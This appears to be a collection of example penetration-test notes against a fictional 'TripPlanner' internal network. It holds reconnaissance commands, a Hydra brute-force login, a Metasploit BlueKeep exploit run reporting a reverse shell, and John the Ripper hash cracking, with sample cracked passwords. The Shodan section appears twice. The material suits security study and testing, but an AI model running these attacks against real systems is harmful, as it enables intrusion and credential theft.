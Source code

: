 # Nmap Scan Example – Internal IP Range

nmap -sS -sV 10.10.20.0/24

Findings:

•	Port 80 open on 10.10.20.14 (Apache 2.4.29)
•	Port 3389 open on 10.10.20.21 (RDP Service)

---

### `theharvester-example.md`
# theHarvester – Email and Subdomain Enumeration

theHarvester -d tripplanner.local -b bing

Findings:

•	Emails: it.admin@tripplanner.local, booking.support@tripplanner.local
•	Subdomains: staging.tripplanner.local, beta.tripplanner.local

---

### `shodan-example.md`
# Shodan Search – Public Exposure Check

shodan search "TripPlanner"

---

###`shodan-example.md`

# Shodan Search – Public Exposure Check

shodan search "TripPlanner"


Findings:

•	1 RDP service exposed publicly (port 3389)
•	2 devices with default credentials flag


---

### `nikto-example.md`

# Nikto – Web Vulnerability Scan

nikto -h http://staging.tripplanner.local

Findings:
•	Outdated Apache version
•	PHP info disclosure at /phpinfo.php
•	Admin login page without SSL

---

### `gobuster-example.md`

# Gobuster – Hidden Directory Scan

gobuster dir -u http://intranet.tripplanner.local -w /usr/share/wordlists/dirb/common.txt


Findings:
•	/admin/
•	/upload/
•	/dev/

---

### `enum4linux-example.md`

# Enum4Linux – SMB Share Enumeration

enum4linux -a 10.10.20.45


Findings:
•	Share: \HRShared accessible without credentials
•	User list dump: jdoe, mjames, sadmin
•	Password policy: weak, no lockout

---

### `hydra-login-test.md`

# Hydra – Login Brute Force Test

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.14 http-post-form "/admin:username=^USER^&password=^PASS^:Invalid login"


Findings:
•	Password found for admin: summer2021

---

### 📄 `metasploit-session.md`

# Metasploit – Exploiting RDP Vulnerability

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 10.10.20.21
run

Findings:
•	Exploit succeeded
•	Reverse shell obtained
•	Privilege escalation possible

---

### `john-password-crack.md`

# John the Ripper – Cracking Password Hashes

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt


Findings:
•	Cracked: admin:sunshine123
•	Cracked: jdoe:qwerty2022

---

### `dradis-report.md`

# Dradis – Report Collaboration

Uploaded all findings to Dradis for central documentation:

- Port scans  
- Screenshot uploads  
- CVE references  
- PDF report generated for CISO review


